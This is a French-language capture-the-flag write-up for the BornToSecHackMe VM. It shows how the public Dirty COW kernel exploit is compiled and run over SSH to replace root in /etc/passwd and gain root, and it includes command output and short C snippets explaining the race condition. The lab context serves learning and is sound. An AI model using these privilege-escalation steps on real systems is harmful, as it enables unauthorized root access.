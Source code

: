 # Writeup numéro 2:
## Étape 0 - Lancement de la VM:
![BootToRoot](assets/start_vm.png)

## Étape 1 - Connexion à la VM par ssh

Nous pouvons nous connecter à la VM avec les identifiants zaz trouvés avec la méthode décrite sur le [writeup1](writeup1.md)

## Étape 2 - Vérification de la version du kernel

Une fois connectés en ssh, nous vérifions la version du kernel Linux.

```SH
$> uname -r
3.2.0-91-generic-pae
```

Nous vérifions aussi la version de la distribution Linux.

```sh
$> lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 12.04.5 LTS
Release:	12.04
Codename:	precise
```
## Étape 3 - Récherche et lancement de l'exploit

Si nous cherchons sur internet et sur [exploit-db](https://www.exploit-db.com/), nous pouvons voir qu'il existe une vulnérabilité publique pour la version du kernel 2.6.22 < 3.9.

Une fois le code de l'exploit [Dirty COW](https://www.exploit-db.com/exploits/40839) copié, on crée un fichier dirty.c sur le terminal connecté en ssh et on le compile.
```sh
$>gcc -pthread dirty.c -o dirty -lcrypt
```

Il nous demande ensuite un mot de passe, on peut mettre `1234`.

```sh
$> ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
```

Après l'exécution du programme, l'user root aura été remplacé par firefart (on peut changer ce nom par défaut en modifiant le code) et nous pourrons nous connecter avec le mot de passe choisi.

```
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
$> su
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
```

`Youpi on est root !!`

## Un peu plus d'explications

Le script utilisé exploite une faille de sécurité dans le système Copy On Write qui a été présent sur le noyau Linux pendant très longtemps. Copy On Write ou `COW` permet gagner du temps quand on fait une copie. Quand on accède à l'élément copié, on a accès encore à l'élément original et la copie n'est pas faite que quand cet élément est modifié. S'il y a un problème, les données peuvent s'écrire dans un emplacement mémoire qui ne leur correspond pas.

L'exploit qui permet d'écrire sur un fichier qui, à priori, est de lecture seul (par exemple `/ect/passwd`), suit ces pas :

* Fait un mapping privé du fichier à écrire (même si le contexte est de lecture, il peut être écrit car il est privé).

```c
map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0);
```

* En même temps qu'il écrit, il lance l'appel system [madvise()](http://man7.org/linux/man-pages/man2/madvise.2.html) avec `MADV_DONTNEED` pour indiquer au kernel qu'il peut libérer temporairement la mémoire utilisée par le fichier assigné. À chaque fois que l'on veut écrire, il faut charger une nouvelle copie, ce qui prend du temps et, si le cycle Copy On Write n'a pas encore fini, on peut écrire sur l'original au lieu de la copie en mémoire.

```c
c += madvise(map, 100, MADV_DONTNEED);
```

Vous pouvez voir une explication plus détaillée sur le fonctionnement de l'exploit [ici](https://www.youtube.com/watch?v=kEsshExn7aE).
